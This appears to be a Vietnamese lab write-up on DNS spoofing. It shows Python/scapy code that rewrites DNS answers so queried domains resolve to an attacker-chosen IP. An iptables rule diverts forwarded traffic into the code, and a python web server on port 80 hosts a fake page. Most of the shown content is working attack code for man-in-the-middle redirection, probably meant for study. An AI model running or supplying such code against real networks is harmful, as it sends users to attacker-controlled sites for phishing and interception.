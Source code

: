 ```python!
    """
    Modifies the DNS Resource Record `packet` ( the answer part)
    to map our globally defined `dns_hosts` dictionary.
    For instance, whenever we see a google.com answer, this function replaces
    """
    # get the DNS question name, the domain name
    qname = packet[DNSQR].qname
    if qname not in dns_hosts:
        # if the website isn't in our record
        # we don't wanna modify that
        print("no modification:", qname)
        return packet
    # craft new answer, overriding the original
    # setting the rdata for the IP we want to redirect (spoofed)
    # for instance, google.com will be mapped to "192.176.45.101"
    packet[DNS].an = DNSRR(rrname=qname, rdata=dns_hosts[qname])
    # set the answer count to 1
    packet[DNS].ancount = 1
    # delete checksums and length of packet, because we have modified the packet
    # new calculations are required ( scapy will do automatically )
    del packet[IP].len
    del packet[IP].chksum
    del packet[UDP].len
    del packet[UDP].chksum
    # return the modified packet
    return packet

QUEUE_NUM = 0
# insert the iptables FORWARD rule
os.system("iptables -A FORWARD -j NFQUEUE --queue-num {}".format(QUEUE_NUM))
# instantiate the netfilter queue
queue = NetfilterQueue()

try:
    # bind the queue number to our callback `process_packet`
    # and start it
    queue.bind(QUEUE_NUM, process_packet)
    queue.run()
except KeyboardInterrupt:
    # if want to exit, make sure we
    # remove that rule we just inserted, going back to normal.
    os.system("iptables --flush")
```

- mình tạo 1 trang html đơn giản

![ảnh](https://hackmd.io/_uploads/ryY9CQPC6.png)

- sau đó dùng module của python để tạo máy chủ web http chạy ở port 80 trên máy của attacker

```bash!
python3 -m http.server  80
```
